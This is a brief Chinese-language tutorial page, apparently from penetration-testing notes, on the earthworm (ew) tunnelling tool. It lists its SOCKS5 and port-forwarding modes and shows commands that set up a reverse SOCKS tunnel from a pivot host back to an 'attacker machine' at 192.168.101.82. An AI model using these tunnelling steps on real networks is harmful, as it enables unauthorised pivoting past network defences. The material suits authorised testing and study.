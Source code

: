 ## earthworm

ew（earthworm）是一套便携式的网络穿透工具，具有 SOCKS v5服务架设和端口转发两大核心功能，可在复杂网络环境下完成网络穿透。该工具能够以“正向”、“反向”、“多级级联”等方式打通一条网络隧道，直达网络深处。

### 下载

```
git clone https://github.com/idlefire/ew.git
cd ew
chmod +x *
```

### 使用

```
ssocksd：用来开启Socks5代理服务

rssocks：本地启用Socks5服务，并反弹到另一IP地址

rcsocks：接收反弹过来的Socks5服务，并转向另一端口 其余的lcx链路状态用于打通测试主机同socks服务器之间的通路。
```

```
-l 开放指定端口监听

-d 指定转发或反弹的主机地址

-e 指定转发或反弹的主机端口

-f 指定连接或映射的主机地址
```

攻击机启动，监听自己本地的1080端口并转发到本地6004端口

```bash
./ew_for_linux64 -s rcsocks -l 1080 -e 6004 -t 1000000
```

![image-20230804223724128](img/隧道技术/image-20230804223724128.png)

中转机运行

```bash
ew_for_Win -s rssocks -d 192.168.101.82 -e 6004 -t 1000000
```

![image-20230804223731846](img/隧道技术/image-20230804223731846.png)
